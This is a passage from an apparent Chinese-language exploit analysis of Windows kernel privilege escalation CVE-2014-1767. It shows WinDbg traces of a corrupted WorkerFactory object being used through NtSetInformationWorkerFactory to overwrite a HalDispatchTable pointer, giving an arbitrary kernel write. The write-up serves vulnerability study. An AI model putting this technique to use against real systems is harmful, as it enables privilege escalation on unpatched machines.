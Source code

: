 ```
00002140  41414141 41414141 41414141 41414141
00002150  41414141 41414141 41414141 41414141
00002160  41414141 41414141 41414141 41414141
00002170  41414141 41414141 41414141 41414141
```

### Step.5 and 6
下面该unlucky_obj(WorkerFactory)登场了，Step 4已经把WorkerFactory对象空间内容改写，接下来调用ntdll!ZwSetInformationWorkerFactory来执行任意地址写任意数据，ZwSetInformationWorkerFactory中根据handle取出object后：

![图片7](https://turingsec.github.io/knowledge/posts/windows_eop_cve-2014-1767/图片7.png)

看下面任意地址写的过程：

```
kd> r
eax=00000000 ebx=00000008 ecx=8a284080 edx=00000001 esi=00000008 edi=00020704
eip=83ebe4bc esp=8e7f5bc4 ebp=8e7f5c1c iopl=0         nv up ei pl zr na pe nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000246
nt!NtSetInformationWorkerFactory+0x159://获得unlucky对象+0x28偏移地址
83ebe4bc 8b45e4          mov     eax,dword ptr [ebp-1Ch] ss:0010:8e7f5c00=87f80088
kd> p;r
eax=87f80088 ebx=00000008 ecx=8a284080 edx=00000001 esi=00000008 edi=00020704
eip=83ebe4bf esp=8e7f5bc4 ebp=8e7f5c1c iopl=0         nv up ei pl zr na pe nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000246
nt!NtSetInformationWorkerFactory+0x15c://获得用户空间的地址0x2200
83ebe4bf 8b00            mov     eax,dword ptr [eax]  ds:0023:87f80088=00002200
kd> dd 87f80060 
87f80060  88101ec0 000000a8 00000000 00000000
87f80070  00000002 00000001 00000000 00080016
87f80080  00000000 00000000 00002200 41414141
87f80090  41414141 41414141 41414141 41414141
87f800a0  41414141 41414141 41414141 41414141
87f800b0  41414141 41414141 41414141 41414141
87f800c0  41414141 41414141 41414141 41414141
87f800d0  41414141 41414141 41414141 41414141
kd> p;r
eax=00002200 ebx=00000008 ecx=8a284080 edx=00000001 esi=00000008 edi=00020704
eip=83ebe4c1 esp=8e7f5bc4 ebp=8e7f5c1c iopl=0         nv up ei pl zr na pe nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000246
nt!NtSetInformationWorkerFactory+0x15e://获得nt!HalDispatchTable偏移
83ebe4c1 8b4010          mov     eax,dword ptr [eax+10h] ds:0023:00002210=83f3b3e0
kd> dd eax
00002200  00000000 00000000 00000000 00000000
00002210  83f3b3e0 00000000 00000000 00000000
00002220  00000000 00000000 00000000 00000000
00002230  00000000 00000000 00000000 00000000
00002240  00000000 00000000 00000000 00000000
00002250  00000000 00000000 00000000 00000000
00002260  00000000 00000000 00000000 00000000
00002270  00000000 00000000 00000000 00000000
kd> 
eax=83f3b3e0 ebx=00000008 ecx=8a284080 edx=00000001 esi=00000008 edi=00020704
eip=83ebe4ce esp=8e7f5bc4 ebp=8e7f5c1c iopl=0         nv up ei pl nz na po nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000202
nt!NtSetInformationWorkerFactory+0x16b://任意地址写任意数据
83ebe4ce 89781c          mov     dword ptr [eax+1Ch],edi ds:0023:83f3b3fc={hal!HaliQuerySystemInformation (842498a2)}
kd> dds eax+0x18
83f3b3f8  00000004
83f3b3fc  842498a2 hal!HaliQuerySystemInformation //unlucky_kernel_func
83f3b400  8424a1b4 hal!HalpSetSystemInformation
83f3b404  840c4637 nt!xHalQueryBusSlots
kd> p;r
```